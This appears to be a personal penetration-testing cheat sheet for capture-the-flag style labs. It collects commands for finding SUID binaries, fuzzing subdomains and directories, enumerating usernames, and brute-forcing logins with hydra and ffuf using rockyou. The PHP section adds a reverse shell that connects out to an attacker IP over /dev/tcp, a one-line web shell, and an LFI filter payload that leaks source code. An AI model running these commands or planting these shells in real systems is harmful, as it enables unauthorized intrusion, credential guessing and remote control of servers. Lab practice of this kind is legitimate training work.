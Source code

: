 # This section is for documenting common commands that are a pain to try and find again
### debconf: DbDriver "config": /var/cache/debconf/config.dat is locked by another process: Resource temporarily unavailable
    sudo fuser -v /var/cache/debconf/config.dat
    sudo kill 8123

## Privesc
- ### Find SUID binaries
        find / -perm -u=s -type f 2>/dev/null

- ### list sudo-able binaries
        sudo -l

## Web enumeration
 - ### fuzz different parts of web URL
        ffuf -w dns_nameslist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.244.57 -fs 2395
 - ### find directories for a website
        gobuster -w directory_list.txt -u 10.10.244.57
 - ### find valid usernames with ffuz
        ffuf -w ~/tools/usernames_list.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.176.13/customers/signup -mr "username already exists"
 - ### find valid usernames with hydra (S= denotes succesful message or stop condition)
        hydra -L ~/tools/usernames_list.txt -p x 10.10.61.61 http-post-form "/customers/signup:username=^USER^&email=x&password=x&cpassword=x:S=An account with this username already exists"
 - ### brute force username/password with ffuf
        ffuf -w validusernames.txt:W1,/home/misael/tools/rockyou.txt:W2 -X POST -d "username:W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.61.61/customers/login -fc 200
 - ### brute force username/password with hydra
        hydra -L validusernames.txt -P ~/tools/rockyou.txt 10.10.61.61 http-post-form "/customers/login:username=^USER^&password=^PASS^:Incorrect username/Password"
        

## PHP

- ### php reverse shell
        <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.2.64.239/1234 0>&1'");

- ### php web shell
        <?php system($_GET[cmd]);?>

- ### php leak source code w/ LFI
        pagename=php://filter/convert.base64-encode/resource=login

### Stabilize shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl ^Z
    echo $TERM
    stty -a
    stty raw -echo
    reset
    xterm

# TO BE CONTINUED

